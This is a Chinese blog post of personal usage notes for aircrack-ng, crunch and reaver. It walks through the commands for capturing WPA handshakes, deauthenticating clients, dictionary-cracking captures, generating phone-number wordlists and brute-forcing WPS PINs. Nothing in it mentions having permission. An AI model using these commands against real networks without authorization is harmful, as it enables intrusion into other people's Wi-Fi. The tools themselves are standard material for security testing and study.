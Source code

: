 ```yaml
---
title: "无线网络安全审计工具"
date: 2022-01-07T20:00:00+08:00
draft: false
authors: ["BahuangShanren"]
lightgallery: true
tags: [命令行,网络,Linux]
categories: [使用]
images: []
featuredImagePreview: ""
summary: aircrack-ng,crunch,reaver使用笔记
keywords: aircrack-ng,crunch,reaver
description: aircrack-ng,crunch,reaver使用笔记
---
```


{{< admonition type=abstract title="总结" open=true >}}
1. 因为懒地打 `sudo` ，所以本文中命令的运行时用户为root
2. 事实上利用字典穷举完全靠运气
3. 通过爆破WPS可行性高但 reaver总报错：`[!] WPS transaction failed (code: 0x04), re-trying last pin` ，[解决方法](https://forum.ubuntu.org.cn/viewtopic.php?t=459198) 并没有效果

{{< /admonition >}}

## aircrack-ng

通过抓取握手包后将其破解以获取密码。

### 准备

#### 硬件

网卡芯片需要支持监听和注入，此处用的芯片是RTL8187L

#### 软件

1. 安装aircrack-ng

```
apt install aircrack-ng
```

2. 查看网卡状态信息

```
iwconfig
```

3. 关闭网卡 `wlx012345678` 

```
ip link set wlx012345678 down
```

4. 重命名网卡 `wlx012345678` 为 `wl` 

```
ip link set wlx012345678 name wl
```

5. 打开网卡 `wl` 

```
ip link set wl up
```

### 监听

1. 为网卡 `wl` 开启监听模式

```
airmon-ng start wl
```

2. 查看网卡状态信息

```
iwconfig
```

发现网卡 `wl` 变成了 `wlmon` 

3. 监听附近WIFI

```
airodump-ng wlmon
```

### 抓包

```
airodump-ng --channel 7 -w captured --bssid XX:XX:XX:XX:XX:XX wlmon
```

### 攻击

```
aireplay-ng -0 0 -a XX:XX:XX:XX:XX:XX -c 3C:CD:5D:93:A7:08 wlmon
```

### 破解

1. 关闭监听模式

```
airmon-ng stop wlmon
```

2. 使用字典进行暴力破解

```
aircrack-ng -w 桌面/dic.txt 桌面/captured-01.cap
```

## crunch

用来制作字典，[用法参考](https://blog.csdn.net/qq_42025840/article/details/81125584) 

### 安装

```
apt install crunch
```

### 例子

1. 生成8位数密码，只包含数字

```shell
crunch 8 8 -f /usr/share/crunch/charset.lst numeric -o num8.txt
```

2. 生成11位手机号：

```shell
crunch 11 11 +0123456789 -t 134%%%%%%%% -o phone134.txt
```

> 号码开头字段参考 [手机归属 | 查号吧](https://www.chahaoba.com/%E6%89%8B%E6%9C%BA%E5%BD%92%E5%B1%9E) 、[三大运营商手机号段](https://blog.csdn.net/lihefei_coder/article/details/81416948) 

| 普通用户号段 | 中国移动                     | 中国联通      | 中国电信           |
| ------------ | ---------------------------- | ------------- | ------------------ |
| 13号段       | 134、135、136、137、138、139 | 130、131、132 | 133                |
| 14号段       | 147                          | 145           | 149                |
| 15号段       | 150、151、152、157、158、159 | 155、156      | 153                |
| 16号段       |                              | 166           |                    |
| 17号段       | 172、178                     | 171、175、176 | 173、177           |
| 18号段       | 182、183、184、187、188      | 185、186      | 180、181、189      |
| 19号段       | 195、197、198                | 196           | 190、191、193、199 |

还可以设置为每次生成的文件大小为20M：

```shell
crunch 11 11 +0123456789 -t 134%%%%%%%% -b 20mib -o START 
```

## reaver

> 参考 [CSDN](https://blog.csdn.net/weixin_40586270/article/details/81280928) 、[Neurohazard](http://blkstone.github.io/2015/08/19/reaver-tutorial/) 

通过爆破WPS的PIN来达到目的。

1. 为网卡 `wl` 开启监听模式

```
airmon-ng start wl
```

2. 监听附近WIFI

```
airodump-ng wlmon
```

3. 找出开启了WPS功能、可以使用PIN登录的路由器

```
wash -i wlmon
```

> ENC需要为WPA或WPA2，AUTH需要为PSK

4. 攻击

```
reaver -i wlmon -c 7 -b XX:XX:XX:XX:XX:XX -S -d 9 -t 9 -vv
```

5. 获取到PIN后，以后即便路由器更换了密码，也可以很迅速地通过PIN重新获得新密码。举例：

```
reaver -i wlmon -b xx:xx:xx:xx:xx:xx -p 12345670
```


